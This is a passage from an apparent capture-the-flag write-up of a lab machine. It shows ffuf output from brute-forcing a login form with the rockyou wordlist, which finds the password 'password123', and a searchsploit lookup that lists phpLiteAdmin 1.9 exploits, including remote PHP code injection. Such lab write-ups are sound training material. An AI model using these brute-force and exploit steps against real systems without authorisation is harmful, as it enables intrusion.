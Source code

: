```bash
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : password=FUZZ&remember=yes&login=Log+In&proc_login=true
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Incorrect password.
________________________________________________

password123             [Status: 200, Size: 14088, Words: 658, Lines: 486
```

Using the password `password123`, we are able to login!

![](/assets/images/nineveh10.png)

Using `searchsploit`, we see that this version of `phpliteAdmin` is exploitable!

```bash
$ searchsploit phpliteAdmin 1.9
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection   | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities    | php/webapps/39714.txt
------------------------------------------------- ---------------------------------
```
